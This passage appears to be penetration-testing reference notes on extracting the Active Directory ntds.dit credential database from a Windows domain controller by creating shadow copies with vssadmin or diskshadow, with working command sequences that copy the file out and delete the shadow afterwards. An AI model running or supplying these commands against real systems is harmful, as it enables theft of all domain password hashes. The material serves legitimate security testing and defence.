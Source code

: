 ###### vssadmin

The Windows built-in `Volume Shadow Copy Service administrative (vssadmin)`
command line utility can be used to create a shadow copy of the Windows install
volume in order to make a shadow copy of the `ntds.dit` database file.

While still available by default, the `vssadmin` utility has been superseded by
the `diskshadow` utility on `Windows Server 2008`, and later.

Note that the `vssadmin` utility requires elevated privileges that are not
attributed to members of the `Backup Operators` domain group (error: `Error:
You don't have the correct permissions to run this command.`).

```
vssadmin create shadow /for=C:
# Shadow Copy ID: <GUID>
# Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>

# The copy should be done using the DOS copy.exe utility, as the copy PowerShell command, alias for Get-ChildItem seems to have trouble copying from a shadow volume.
cmd.exe /c "copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\NTDS\ntds.dit <EXPORTED_NTDS_DIT>"

vssadmin delete shadows /shadow=<GUID>
```

###### diskshadow

Similarly to the `vssadmin` utility, the Windows `diskshadow` utility directly
interact with the Windows `VSS` service.

By default, the `diskshadow` utility uses an interactive command interpreter
but also includes the possibility to execute `diskshadow` commands directly
from a script file.

Note that the `diskshadow` utility can be used by members of the `Backup
Operators` domain group to create a shadow volume.

The following `diskshadow` commands can be executed, either through an
interactive `diskshadow` commands interpreter or from a script file by starting
`diskshadow.exe -s <SCRIPT_FILE>`, to create a shadow volume and directly copy
the `ntds.dit` file. In order to make use of the `diskshadow.exe`'s `exec
"cmd.exe" [...]` command, `diskshadow.exe` must be started in the
`C:\Windows\System32` directory, otherwise the command execution will fail.
If doing so is not a possibility, the copy may also be done outside of
`diskshadow`, after the shadow volume creation.

```
set context persistent nowriters
add volume c: alias <ALIAS>
create
expose %<ALIAS>% <DRIVE_LETTER>:
exec "cmd.exe" /c copy <DRIVE_LETTER>:\Windows\NTDS\ntds.dit <EXPORTED_NTDS_DIT>
delete shadows volume %<ALIAS>%
reset
```
